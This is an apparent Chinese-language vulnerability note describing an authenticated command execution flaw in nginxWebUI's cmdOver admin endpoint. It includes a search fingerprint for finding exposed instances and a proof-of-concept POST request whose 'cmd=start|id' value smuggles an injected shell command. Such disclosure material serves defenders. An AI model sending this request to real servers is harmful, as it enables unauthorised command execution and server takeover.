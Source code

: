 # nginxWebUI cmdOver 后台命令执行漏洞

## 漏洞描述

nginxWebUI 后台存在命令执行漏洞，攻击者登录后台后可以执行任意命令获取服务器权限

## 漏洞影响

```
nginxWebUI
```

## 网络测绘

```
title="nginxwebui"
```

## 漏洞复现

登录页面

![image-20220628112638269](./images/202206281126396.png)



验证请求包

```
POST /adminPage/remote/cmdOver

remoteId=local&cmd=start|id&interval=1
```

![image-20220628112938342](./images/202206281129491.png)